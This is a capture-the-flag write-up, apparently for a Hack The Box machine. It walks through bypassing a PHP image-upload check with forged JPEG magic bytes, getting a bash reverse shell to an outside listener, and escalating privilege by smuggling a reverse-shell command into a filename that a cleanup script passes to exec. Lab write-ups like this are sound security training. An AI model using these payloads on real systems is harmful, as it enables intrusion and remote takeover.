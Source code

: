 ```php
require '/var/www/html/lib.php';                                                                                
                                                                                                                
define("UPLOAD_DIR", "/var/www/html/uploads/");                                                                 
                                                                                                                
if( isset($_POST['submit']) ) {                                                                                 
  if (!empty($_FILES["myFile"])) {                                                                              
    $myFile = $_FILES["myFile"];                                                                                
                                                                                                                
```
- We can check this by accessing the uploads directory with the file name from photos.php

## Getting reverse shell
- We can upload a reverse shell, and change the magic bytes of the file to jpg : `FF D8 FF DB` using any hex editor.
![[Pasted image 20210425091144.png]]
- Upload this file and access it through the /uploads directory
![[Pasted image 20210425091243.png]]
- We can check RCE
![[Pasted image 20210425091314.png]]
- Get a reverse shell using any payload. I used: `bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'`
```bash
nc -lnvp 9001                                                                                           1 ↵ 
listening on [any] 9001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 34312
bash: no job control in this shell
bash-4.2$ ls

```
# Privilege Escalation

## Getting user: Guly
- In /home/check_attack.php, we can see a variable $var is being removed, which is a file name in /var/www/html/uploads
```php

...[snip]...

file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
  
...[snip]...

```
- Additionally the filename cannot have `/` in it.
- If we can get $var --> ` '; bash -c "bash -i  >& /dev/tcp/10.10.14.18/9002 0>&1" ' `, then we can get a reverse shell. The same payload as used before. But we can't have `/` in it, so we can convert it into base64 and decode it and execute it.